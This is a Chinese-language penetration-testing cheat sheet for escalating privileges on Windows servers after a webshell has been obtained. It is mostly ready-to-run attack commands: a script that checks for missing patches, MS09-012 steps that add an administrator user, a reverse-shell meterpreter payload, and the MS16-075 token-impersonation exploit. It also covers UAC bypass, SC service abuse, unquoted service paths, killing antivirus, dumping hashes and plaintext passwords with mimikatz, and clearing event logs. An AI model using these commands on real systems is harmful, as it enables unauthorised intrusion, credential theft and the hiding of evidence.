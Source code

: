 思路：目前我们是有拿到webshell的，那么说明该站点根目录是具有可读写的权限，此时我们可以通过菜刀上传一个脚本去检测网站目录的权限（使用脚本666.asp检测目录权限）
上传cmd.exe
setp xxx\cmd.exe


systeminfo>micropoor.txt&(for %i in ( KB977165 KB2160329 KB2503665 KB2592799 KB2707511 KB2829361 KB2850851 KB3000061 KB3045171 KB3077657 KB3079904 KB3134228 KB3143141 KB3141780 ) do @type micropoor.txt|@find /i "%i"|| @echo %i you can fuck)&del /f /q /a micropoor.txt
或者
systeminfo > micropoor.txt & (for %i in (KB977165 KB2160329 KB2503665 KB2592799

KB2707511 KB2829361 KB2850851 KB3000061 KB3045171 KB3077657 KB3079904 KB3134228

KB3143141 KB3141780 KB885835 KB896424 KB893066 KB890830 KB873333 KB891781

KB873339 KB885836 KB888113 KB890046 KB891861 KB893086 KB896358 KB899587 KB899588

KB900725 KB901214 KB902400 KB904706 KB905414 KB905749 KB908519 KB908531 KB910437

KB911562 KB911927 KB912919 KB913580 KB914388 KB915800 KB916281 KB917344 KB918118

KB918439 KB918899 KB919007 KB920213 KB920342 KB920670 KB920683 KB920685 KB922582

KB922819 KB923191 KB923414 KB923980 KB924270 KB924667 KB925398 KB925902 KB926122

KB926255 KB926436 KB927436 KB928843 KB928255 KB929123 KB930178 KB930916 KB931784

KB932168 KB932590 KB933566 KB935839 KB936021 KB936782 KB937143 KB938127 KB938464

KB939373 KB940541 KB941569 KB941644 KB942830 KB943055 KB943460 KB944338 KB944653

KB945553 KB946648 KB948496 KB950762 KB950974 KB951066 KB951748 KB952004 KB952954

KB953155 KB953298 KB953761 KB954155 KB954459 KB955069 KB955839 KB956803 KB957095

KB957097 KB958644 KB959426 KB959454 KB960225 KB960803 KB961501 KB961729 KB963093

KB967715 KB968389 KB968537 KB968585 KB969604 KB970430 KB971468 KB971657 KB971961

KB973507 KB973869 KB973904 KB974112 KB974318 KB974392 KB974571 KB975025 KB975467

KB975560 KB975713 KB976098 KB976323 KB976662 KB976749 KB977914 KB978037 KB978338

KB978542 KB978601 KB978695 KB978835 KB979309 KB979683 KB980232 KB981957 KB982316)

do @findstr /i /c:"%i" micropoor.txt > nul || @echo %i is missing) & del /f /q

micropoor.txt




一、巴西烤肉-MS09-012
pr.exe "whoami"
pr.exe "net user yy 110815_yw /add"
pr.exe "net localgroup administrators yy /add"

打开远程桌面
pr.exe "3389.exe"
用mstsc连接

二、烂土豆-MS16-075
kali:
msfvenom  -p windows/meterpreter/reverse_tcp lhost=192.168.163.133 lport=4444 -f exe -o /tmp/hack.exe

use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
run

getuid
getsystem
**==此时权限不够，需要提权==**，烂土豆上场
background
search ms16-075
use 0
show options
info
set target 1 

sessions -i
set session x

getuid
MS16-075漏洞在提权过程中，是不会直接把当前会话权限提升到system的，需要伪造身份令牌来窃取token值，达到提权

use incognito
加载incoginto功能(用来盗窃目标主机的令牌或是假冒用户)

使用list_tokens -u命令可以列出目标主机用户的可用令牌，找到system权限。最后伪造token值（身份令牌）就可以成功提权了
list_tokens -u

输入命令进行token值伪造：
impersonate_token "NT AUTHORITY\SYSTEM"
getuid


load kiwi
creds_all


`===========win7================`
use exploit/windows/local/ask
quit
use exploit/windows/local/bypassuac

getuid
    admin
getsystem
    system




windows提权之其他方式提权

方式一：利用系统SC命令提权。
1，使用命令创建一个服务，执行命令会弹出一个新的cmd窗口，此时我们就得到了一个system权限的cmd环境。

SC是用于与服务控制管理器和服务进行通信的命令行程序。提供的功能类似于“控制面板”中“管理工具”项中的“服务”

当我们有administrator权限时，可以通过SC命令创建一个服务，通过SC命令启动此服务即可提权。

具体操作（以win2003系统为例）

`sc Create syscm binPath= "cmd /K start" type= own type= interact`

#命令的意思是：创建一个syscm服务，服务的binPath路径等"cmd /K start"（启动一个CMD）

type表示类型

2，执行命令：
`sc start syscm`

会弹出一个新的cmd窗口，此时我们就得到了一个system权限的cmd环境。


方式二 ：利用配置文件中带有不安全的空格提权

==`当系统管理员配置Windows服务时，他们必须指定要执行的命令，或者运行可执行文件的路径。`==

==`当Windows服务运行时，会发生以下两种情况之一。如果给出了可执行文件，并且引用了完整路径，则系统会`==

==`按字面解释它并执行。但是，如果服务的二进制路径未包含在引号中，则操作系统将会执行找到的空格分隔的`==

==服务路径的第一个实例。==

那么我们可以利用这个机制，通过上传脚本并将脚本名命名为路径空格前面的内容：
比如路径中存在Common Files，那么我们将脚本命名为：Common.exe，当管理员去点击第三方软件或者重启服务器时，触发系统去调用软件的安装路径：Common Files中的服务或者程序的时候，可能就会触发我们上传的Common.exe脚本。
此时服务器重启，系统调用配置文件时也调用了我们刚刚上传的脚本文件，如果遇到没有安全意识的运维人员可能就直接忽略掉了此次提醒了。那么如果遇到第三方软件是使用管理员身份进行安装的话呢，我们的脚本木马也会继承管理员权限。那么我们也成功的达到了提权的目的。

**注意：此种方法一般适用于第三方应用软件，特别是那些不带数字签名的软件。一**

**般的操作系统自带的服务因为存在数字签名所以即使去进行更改，也不会去成功。**

**当然前提是对方的这个第三方应用软件的安装路径也是具有可读写的权限才行！**




## 后续提权操作  
https://www.cnblogs.com/backlion/p/9484950.html

## 1. 基本信息搜集

检测目标机是否为虚拟机。在Meterpreter会话执行以下命令即可：

run post/windows/gather/checkvm #是否虚拟机，此处判断并不准确，模块代码仍需完善  
通过meterpreter的killav脚本来杀死目标主机运行的杀毒软件，在Meterpreter会话执行以下命令即可：
run killav
获取安装软件信息，在Meterpreter会话执行以下命令即可：
run post/windows/gather/enum_applications #获取安装软件信息
获取目标机器最近的文件操作，在Meterpreter会话执行以下命令即可：
run post/windows/gather/dumplinks   #获取最近的文件操作



2.hash与明文密码读取
获取目标机系统用户Hash，，在Meterpreter会话执行以下命令即可：

run post/windows/gather/smart_hashdump
获得了本地账户的hask，获取明文密码，我们需要先载入mimikatz模块，在Meterpreter会话执行以下命令即可：

==load mimikatz==  
然后需要确保当前进程为系统权限，直接执行以下命令：
msv
返回了以下信息：
[+] Running as SYSTEM Retrieving msv credentials  上述返回信息表明当前进程是`SYSTEM`权限.  
然后执行以下命令即可导出系统用户明文密码：
kerberos

执行以下命令通过mimikatz命令行方式导出系统用户hash：
meterpreter > mimikatz_command -f samdump::hashes

执行以下命令通过`mimikatz`命令行方式导出系统用户的明文密码：
mimikatz_command -f sekurlsa::searchPasswords


## 3. 清理痕迹

直接执行以下命令：

clearev  
可以看到如下返回：

meterpreter > clearev


**windows10提权方法：**
https://blog.csdn.net/qq_54030686/article/details/127812207

